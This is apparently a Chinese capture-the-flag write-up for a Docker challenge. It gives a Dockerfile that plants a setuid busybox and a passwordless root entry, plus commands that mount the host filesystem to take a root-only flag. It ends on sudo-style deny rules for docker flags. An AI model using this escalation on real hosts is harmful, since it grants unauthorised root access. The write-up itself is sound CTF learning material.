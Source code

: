 去年的Docker题指出，挂载卷对应的外部root用户和容器里面的root ID一致，所以能拿到容器里面的root就可以得到外部的仅root可读的文件。今年只能以普通用户的身份进入容器，要想办法在容器里提权到root。

因为容器镜像内容完全可控，所以在镜像里塞个root所有的setuid程序就能提权了。

因为只有终端，文件上传很慢，再加上连不上Docker Hub等各种因素，所以从零开始构造镜像吧！busybox是个很不错的选择，官方提供的2MB静态链接二进制里包含了各种实用命令行工具，将它设置为setuid就能以root身份做这样那样的事情。

```dockerfile
FROM scratch AS builder
COPY busybox /busybox
COPY busybox /bin/sh
RUN /busybox chmod 6777 /busybox; echo 'root::0:0::/root:/bin/sh' > /passwd

FROM scratch
COPY --from=builder /busybox /bin/busybox
COPY --from=builder /passwd /etc/passwd
RUN ["/bin/busybox", "ln", "-s", "/bin/busybox", "/bin/sh"]
CMD ["/bin/sh"]
```

构建出来的镜像压缩后只有684KB。看到群友接连吐槽ZMODEM，我果断选择最朴实无华的网页终端粘贴一万行Base64上传法，少走不知道多少弯路。不用gzip而用xz的话能压得更小，但服务器上没有xz，解压不了。

```sh
# 本地构建镜像
docker build -t a .
docker image save a | gzip -9 | base64 > a.txt
docker image rm a
```

```sh
# 服务器上执行
base64 -d | sudo docker image load
# 粘贴上传
sudo docker run --rm -u 1000:1000 -itv /:/a a # 进入容器
busybox su # 进入容器内root shell
busybox chown 1000 /a/dev/vdb # /flag链接目标是./dev/vdb
exit # 退出容器内root shell
exit # 退出容器
cat /flag
```

### Unbreakable!

```
/usr/bin/docker run --rm --security-opt=no-new-privileges -u 1000:1000 *
/usr/bin/docker image load
!/usr/bin/docker * -u0*
!/usr/bin/docker * -u?0*
!/usr/bin/docker * --user?0*
!/usr/bin/docker * -ur*
!/usr/bin/docker * -u?r*
!/usr/bin/docker * --user?r*
!/usr/bin/docker * --privileged*
!/usr/bin/docker * --device*
```
